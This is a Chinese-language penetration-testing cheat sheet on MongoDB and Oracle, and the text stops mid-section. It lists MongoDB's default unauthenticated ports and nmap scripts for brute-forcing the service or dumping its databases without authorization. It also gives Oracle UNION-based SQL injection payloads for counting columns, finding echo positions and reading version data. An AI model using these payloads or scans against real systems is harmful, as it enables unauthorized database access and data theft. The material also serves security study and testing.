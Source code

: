 * db显示当前数据库
* 把数据插入data集合中:db.data.insert({"user":"admin"}) 
* 查询data集合中的全部元素:db.data.find() 
* 添加条件查询：db.data.find({'user':"admin"}) 
* 删除数据：db.data.remove("数据")
* 删除集合：db.data.drop()
* 删除当前数据库：db.dropDatabase() 

## 漏洞

### 端口

* 服务默认端口27017 ，默认设置不需要验证如。果MongoDB服务在没有适当的安全控制的情况下通过网络公开，任何人都可以远程连接到数据库。

* MongoDB提供了一个简单的HTTP界面，如果使用带–rest选项的接口启用mongod，HTTP接口的默认端口是28017，可以使用nmap查看远程主机是否使用http接口运行，通过-sV确认。'

* 注意：默认情况下运行的MongoDB版本大于2.6，禁用http接口。

#### nmap mongdb相关NSE Script

* nmap --script mongdb-brute.nse 提供针对需要验证的http接口进行爆破.
* nmap --script mongdb-databases.nse 在mingdb服务未授权情况下，获取表内容。

#### 认证方法

* 从MongoDB版本3.0开始，MongoDB已经将其默认的认证方法改变为质询和响应机制（SCRAM-SHA-1）。根据文档，“SCRAM-SHA-1根据用户的名称，密码和数据库验证提供的用户凭证。
* 当用户使用MongoDB进行身份验证时，他必须提供用户名，密码和创建数据库。

    mongo 192.168.2.105 -u user -p password –authenticationDatabase userdb

# oracle

## 特殊点

* 查询语句后一直需要跟上表名，提供dual虚拟表构成查询语句。
* Oracle保证dual永远存在一条数据。
* 数据类型强匹配，所以在Oracle进行类似UNION查询数据时候必须让对应位置上的数据类型和表中的列的数据类型是一致的，也可以使用null代替某些无法快速猜测出数据类型的位置。
* Oracle的单行注释符号是--，多行注释符号/**/。

## union注入

* 列数 'order by --+
* 回显位 ' union select null,null,null form dual --+
* 数据库版本 (select banner from  sys.v_$version where rownum=1)
* 查询当前数据库 

```sql
select instance_name from v$instance;
```

* 库内表明位于字典user_tables:
